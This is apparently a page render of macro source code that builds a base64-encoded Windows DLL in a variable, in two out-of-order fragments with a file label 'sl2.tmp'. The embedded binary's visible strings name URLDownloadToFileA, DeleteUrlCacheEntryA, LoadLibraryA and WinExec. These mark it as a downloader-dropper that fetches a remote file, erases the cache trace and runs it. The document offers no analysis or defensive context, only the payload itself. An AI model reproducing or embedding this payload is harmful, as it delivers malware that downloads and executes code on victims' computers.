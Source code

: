 ```
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFWL7FZoICAAEP8VDCAAEIvwhfZ0HGgsIAAQVv8VACAAEIXAdAX/dRD/0Fb/FQQgABBoRCAAEP8VDCAAEIvwhfZ0JWhQIAAQVv8VACAAEIXAdA5qAGoA/3UU/3UQagD/0Fb/FQQgABBeXcPMzMzMzMxVi+xqAP91FP8VCCAAEF3D"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "ACIAABIiAAAgIgAA8CEAAAAAAAAAAAAAAAAAAAAAAABXaW5pbmV0LmRsbABEZWxldGVVcmxDYWNoZUVudHJ5QQAAAABVcmxtb24uZGxsAABVUkxEb3dubG9hZFRvRmlsZUEAAAAAAAAAAAAAAAAAAAAAAAAxUuFdAAAAAA0AAAC0AAAAACEAAAAHAAAAAAAAMVLhXQAAAAAOAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMVLhXQAAAADsIAAA"
    lgstr = lgstr & "AQAAAAIAAAACAAAA2CAAAOAgAADoIAAAcBAAAAAQAAD1IAAA+SAAAAAAAQB1dGZjLmRsbABSQ1AAUkNUAAAAAEdDVEwAEAAAgAAAAC50ZXh0JG1uAAAAAAAgAAAUAAAALmlkYXRhJDUAAAAAICAAAIgAAAAucmRhdGEAALAgAABNAAAALmVkYXRhAAAAIQAAtAAAAC5yZGF0YSR6enpkYmcAAAC0IQAAFAAAAC5pZGF0YSQyAAAAAMghAAAUAAAA"
    lgstr = lgstr & "LmlkYXRhJDMAAAAA3CEAABQAAAAuaWRhdGEkNAAAAADwIQAASAAAAC5pZGF0YSQ2AAAAANwhAAAAAAAAAAAAACoiAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIgAAEiIAACAiAADwIQAAAAAAAKUDTG9hZExpYnJhcnlBAACdAkdldFByb2NBZGRyZXNzAACeAUZyZWVMaWJyYXJ5AM4FV2luRXhlYwBLRVJORUwzMi5kbGwAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQAAAgAAAABTALMBYwHTAtMDIwODBDMEowYzB6MAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```

`sl2.tmp`


```
    lgstr = "T" & "V" & "qQA" & "AMAAAA"
    lgstr = lgstr & "EAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAADdY4TFmQLqlpkC6paZAuqWRP0hlpoC6paZAuuWnQLqlmtb45ebAuqWa1vql5gC6pZrW+iXmALqllJpY2iZAuqW"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAUEUAAGSGAwBgjOFdAAAAAAAAAADwACIgCwIOAAACAAAABgAAAAAAAAAAAAAAEAAAAAAAgAEAAAAAEAAAAAIAAAYAAAAAAAAABgAAAAAAAAAAQAAAAAQAAAAAAAACAGABAAAQAAAAAAAAEAAAAAAAAAAAEAAAAAAAABAAAAAAAAAAAAAAEAAAAKAhAABaAAAA/CEAACgAAAAAAAAAAAAAAAAwAAAMAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAIAgAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALnRleHQAAAC8AAAAABAAAAACAAAABAAAAAAAAAAAAAAAAAAAIAAAYC5yZGF0YQAAmAIAAAAgAAAABAAAAAYAAAAAAAAAAAAAAAAAAEAAAEAucGRhdGEAAAwAAAAAMAAA"
    lgstr = lgstr & "AAIAAAAKAAAAAAAAAAAAAAAAAABAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEiJXCQISIl0JBBXSIPsMEiNDRoQAABJi/FJi/j/FfYPAABIi9hIhcB0I0iNFQ8QAABIi8j/FcYPAABIhcB0BUiLz//QSIvL/xW7DwAASI0NBBAAAP8Vvg8AAEiL2EiFwHQ0SI0V/w8AAEiLyP8Vjg8AAEiFwHQWRTPJSMdEJCAA"
    lgstr = lgstr & "AAAATIvGSIvXM8n/0EiLy/8Vcg8AAEiLXCRASIt0JEhIg8QwX8PMzMzMzMzMzMzMM9JJi8lI/yVUDwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
    lgstr = lgstr & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```